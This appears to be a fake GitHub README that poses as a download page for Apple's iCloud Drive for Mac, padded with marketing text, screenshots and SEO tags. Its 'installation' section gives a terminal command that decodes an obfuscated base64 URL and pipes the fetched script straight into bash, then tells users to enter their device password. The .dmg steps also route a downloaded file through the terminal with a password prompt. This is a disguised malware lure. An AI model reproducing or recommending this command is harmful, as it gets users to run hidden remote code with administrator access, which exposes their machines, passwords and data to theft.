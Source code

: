 # iCloud Drive For Mac — Download For macOS 😊
![iCloud Drive Logo](https://cdn.macstories.net/002/1413373609-hero2.jpg) 

iCloud Drive For Mac is Apple’s seamless cloud storage and file synchronization solution, designed to keep your files accessible and organized across all your Apple devices. Store documents, photos, and more with ease, and collaborate effortlessly. Follow the instructions below to download and install iCloud Drive For Mac.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/idrive)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install iCloud Drive For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ☁️ **Seamless Cloud Storage**: Store up to 5GB of files for free, accessible from any Apple device.
- 🔄 **Automatic File Syncing**: Keep files updated across your Mac, iPhone, iPad, and more in real time.
- 🤝 **Collaboration Features**: Share files and collaborate with others using iCloud sharing tools.
- 🔒 **End-to-End Encryption**: Protect your data with Apple’s industry-leading security.
- 📂 **Finder Integration**: Access and manage files directly from macOS Finder.
- 📱 **Cross-Device Continuity**: Work seamlessly across macOS, iOS, iPadOS, and web browsers.

## About iCloud Drive For Mac

iCloud Drive For Mac is Apple’s native cloud storage solution, seamlessly integrated into macOS to provide effortless file management and synchronization. Designed for Apple users, it allows you to store documents, photos, and other files in the cloud, ensuring they’re accessible on your Mac, iPhone, iPad, or even Windows devices. With 5GB of free storage and deep integration with macOS Finder, iCloud Drive is ideal for students, professionals, and creatives who need a reliable and secure way to manage their files. Its intuitive design makes it a top choice for macOS cloud storage.

The software’s real-time syncing ensures that changes made on one device are instantly reflected across all your Apple devices, streamlining your workflow. Whether you’re editing a Pages document, organizing photos, or sharing files with colleagues, iCloud Drive For Mac offers a smooth experience optimized for macOS, including full support for Apple Silicon and macOS 11.0 Big Sur or later. Its collaboration tools allow multiple users to work on shared files in real time, perfect for team projects or family photo albums.

Security is a cornerstone of iCloud Drive, with end-to-end encryption ensuring your data remains private and protected. The software integrates with Apple’s ecosystem, supporting apps like Pages, Numbers, and Keynote for seamless file editing. Offline access lets you work without an internet connection, with changes syncing automatically once you’re back online. For those searching for “free cloud storage macOS,” “iCloud Drive download,” or “macOS file sync,” iCloud Drive For Mac delivers a polished and dependable solution.

Built for simplicity and performance, iCloud Drive For Mac is regularly updated to stay compatible with the latest macOS features. Its SEO-optimized presence makes it easy to find for users seeking a native macOS cloud storage tool. Whether you’re backing up important files, collaborating on projects, or accessing data on the go, iCloud Drive For Mac provides a secure, user-friendly platform to keep your digital life organized and accessible.

## Advantages of iCloud Drive For Mac

- 📂 **Native Finder Integration**: Manage files directly within macOS Finder for a seamless experience.
- 🔐 **Top-Tier Security**: Safeguard your data with Apple’s end-to-end encryption.
- ⚡ **Instant Syncing**: Keep files updated across all Apple devices with zero delay.
- 📱 **Apple Ecosystem Support**: Works flawlessly with macOS, iOS, iPadOS, and more.
- 🆓 **Free 5GB Storage**: Store files at no cost with no hidden fees or watermarks.
- 🌟 **User-Friendly Interface**: Simple design for effortless file organization and sharing.

## 🖼 Preview

![File Syncing](https://i.pcmag.com/imagery/reviews/04T5RtW7Cgfd3xNLz0J4YSG-46.fit_lim.size_1050x.png)  
*Sync files across your Apple devices with iCloud Drive.*

![Finder Integration](https://eshop.macsales.com/blog/wp-content/uploads/2020/08/iCloudDrive_1280x720.jpg)  
*Access iCloud Drive files directly in macOS Finder.*

![Collaboration Tools](https://i.postimg.cc/5tY0nG7W/icloud-collaboration.png)  
*Share and collaborate on files in real time.*

![Settings Panel](https://i.postimg.cc/0yWqH1mQ/icloud-settings.png)  
*Customize iCloud Drive settings for your preferences.*

## 🔍 Tags

iCloud drive, iCloud drive app, iCloud drive destkop, iCloud drive free, iCloud drive mac, iCloud drive for mac, free cloud storage macOS, iCloud Drive download, macOS file sync tool, free file sharing mac, iCloud Drive For Mac download, cloud backup macOS, Apple cloud storage, secure file storage mac, macOS productivity software, file management mac, cross-device cloud storage, iCloud free mac
